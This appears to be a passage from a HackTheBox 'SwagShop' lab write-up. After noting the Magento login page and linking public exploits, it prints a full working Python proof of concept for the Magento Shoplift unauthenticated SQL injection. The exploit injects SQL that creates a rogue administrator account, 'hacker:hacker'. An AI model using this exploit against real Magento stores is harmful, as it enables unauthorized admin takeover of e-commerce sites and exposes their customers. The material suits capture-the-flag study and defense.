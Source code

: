 ```
http://swagshop.htb/index.php/customer/account/login/
```

#### Exploit definitely worth checking out:

{% embed url="https://github.com/ambionics/magento-exploits/blob/master/magento-sqli.py" %}

## Exploitation

### Unauthenticated SQLi Against Magento

{% embed url="https://raw.githubusercontent.com/joren485/Magento-Shoplift-SQLI/master/poc.py" %}

#### `poc.py`:

```python
import requests
import base64
import sys

target = sys.argv[1]

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

# For demo purposes, I use the same attack as is being used in the wild
SQLQUERY="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""

# Put the nice readable queries into one line,
# and insert the username:password combinination
query = SQLQUERY.replace("\n", "").format(username="hacker", password="hacker")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds hacker:hacker".format(target)
else:
    print "DID NOT WORK"

```
